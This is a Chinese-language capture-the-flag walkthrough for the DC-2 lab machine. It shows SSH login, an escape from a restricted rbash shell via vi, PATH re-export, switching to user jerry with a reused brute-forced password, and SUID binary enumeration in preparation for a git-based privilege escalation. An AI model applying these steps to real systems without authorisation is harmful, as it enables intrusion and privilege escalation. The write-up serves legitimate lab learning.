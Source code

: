 ssh登录

```
ssh tom@192.168.72.155 -p 7744
```

ls发现flag3,试了下cat不能用，查看能用的指令有哪些

```shell
compgen -c
```

试了下找到vi能读内容

![image-20210408221412480](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408221412480.png)

## rbash绕过

参考了一篇文章找到了用vi进行rbash绕过的方法

![image-20210408223448076](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408223448076.png)

这里看到PATH为rx不可写入，尝试用vi绕过

![image-20210408223643970](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408223643970.png)

然后再执行：shell

![image-20210408223720928](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408223720928.png)

发现path可写了

```
export PATH=/bin:/usr/bin:$PATH
```

![image-20210408223822137](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408223822137.png)

执行su来切换用户，发现存在用户jerry，密码和之前在wp爆破出来的一样

![image-20210408224030978](https://raw.githubusercontent.com/MercyL1n/blog-picture/main/img%5Cimage-20210408224030978.png)

应该是还要提权一次，按这里的提示大概率用git来提权

## git提权

```shell
jerry@DC-2:~$ find / -perm -u=s -type f 2>/dev/null

/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/procmail
/usr/bin/at
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/bin/umount
/bin/mount
/bin/su
```
